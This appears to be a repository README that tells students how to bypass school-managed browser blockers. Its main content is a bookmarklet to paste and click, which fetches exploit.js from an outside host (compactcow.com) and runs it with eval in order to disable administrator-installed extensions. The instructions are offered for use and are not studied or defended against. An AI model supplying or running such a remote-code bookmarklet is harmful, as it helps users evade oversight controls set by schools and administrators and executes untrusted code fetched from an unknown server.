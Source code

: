 # Disable-Any-Admin-Extentions

do YOU want to bypass your school blocker?
heres how!
(might not work with some computers because of updates and stuff)


Copy this code and put it in a bookmark. Code: javascript:fetch("https://compactcow.com/ltbeef/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});

Click on the bookmark (not on "New Tab")

When you are brought here: "https://chrome.google.com/webstoreEUGLW", click again on the bookmark.

HAVE FUN!!!
